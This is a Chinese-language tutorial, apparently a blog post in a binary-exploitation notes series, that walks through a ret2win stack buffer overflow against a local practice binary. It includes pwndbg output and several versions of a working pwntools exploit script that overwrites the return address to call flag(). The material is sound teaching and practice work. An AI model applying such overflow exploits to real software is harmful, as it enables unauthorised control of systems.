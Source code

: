 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

<Warning>
  当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
</Warning>

<Download name="ret2win.zip" href="/static/assets/ret2win.zip" type="Binary" />

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault` 消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/blog/pwn-notes/stack/de-bruijn-sequences)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

<Note>
  除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保 `溢出 Padding` 正确。
</Note>

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

<Note>
  `i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
</Note>

可以看到这里的 `flag()` 函数位于 `0x080491c3`。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/blog/pwn-notes/stack/stack-introduction)中，我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码`。所以解决方案很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为十六进制。

```python showLineNumbers
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

<Tip>
  使用 `xxd` 可以以二进制或十六进制显示文件的内容：

  $ echo '\x41\x41\x41\x41' | xxd<br />
  00000000: 4141 4141 0a        AAAA.

  $ echo 'AAAA' | xxd<br />
  00000000: 4141 4141 0a        AAAA.
</Tip>

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件交互，编写漏洞利用脚本。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited`。为什么？我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408`，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg` 中使用这条指令。

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!`：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python showLineNumbers
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须将溢出 Padding 设置为字节字符串：

```python showLineNumbers
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

